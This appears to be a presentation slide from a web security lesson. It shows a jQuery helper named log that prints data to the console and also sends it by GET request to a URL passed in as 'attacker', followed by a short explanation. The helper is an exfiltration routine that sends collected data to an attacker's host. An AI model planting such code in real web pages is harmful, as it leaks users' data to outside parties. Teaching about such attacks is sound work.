

function log(attacker, data) {
        console.log($.param(data));
        $.get(attacker, data);
}

log() is a helper function which logs the data given as a parameter on console.
In addition, this function makes a get request to a URL value stored in parameter attacker.